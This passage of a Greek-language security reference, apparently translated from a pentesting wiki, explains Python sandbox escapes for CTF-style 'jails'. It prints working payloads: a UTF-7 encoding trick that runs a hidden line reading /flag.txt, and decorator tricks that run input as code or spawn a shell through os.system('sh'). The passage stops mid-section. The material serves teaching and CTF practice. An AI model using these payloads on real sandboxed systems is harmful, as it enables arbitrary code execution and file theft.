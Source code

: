 ## Bypassing protections through encodings (UTF-7)

Στο [**αυτό το άρθρο**](https://blog.arkark.dev/2022/11/18/seccon-en/#misc-latexipy) χρησιμοποιείται το UFT-7 για να φορτώσει και να εκτελέσει αυθαίρετο python κώδικα μέσα σε μια φαινομενική sandbox:
```python
assert b"+AAo-".decode("utf_7") == "\n"

payload = """
# -*- coding: utf_7 -*-
def f(x):
return x
#+AAo-print(open("/flag.txt").read())
""".lstrip()
```
Είναι επίσης δυνατό να το παρακάμψετε χρησιμοποιώντας άλλες κωδικοποιήσεις, π.χ. `raw_unicode_escape` και `unicode_escape`.

## Εκτέλεση Python χωρίς κλήσεις

Εάν βρίσκεστε μέσα σε μια φυλακή python που **δεν σας επιτρέπει να κάνετε κλήσεις**, υπάρχουν ακόμα μερικοί τρόποι για να **εκτελέσετε αυθαίρετες συναρτήσεις, κώδικα** και **εντολές**.

### RCE με [διακοσμητές](https://docs.python.org/3/glossary.html#term-decorator)
```python
# From https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/
@exec
@input
class X:
pass

# The previous code is equivalent to:
class X:
pass
X = input(X)
X = exec(X)

# So just send your python code when prompted and it will be executed


# Another approach without calling input:
@eval
@'__import__("os").system("sh")'.format
class _:pass
```
### RCE δημιουργία αντικειμένων και υπερφόρτωση

Αν μπορείτε να **δηλώσετε μια κλάση** και να **δημιουργήσετε ένα αντικείμενο** αυτής της κλάσης, θα μπορούσατε να **γράψετε/υπεργράψετε διάφορες μεθόδους** που μπορούν να **ενεργοποιηθούν** **χωρίς** **να χρειάζεται να τις καλέσετε άμεσα**.
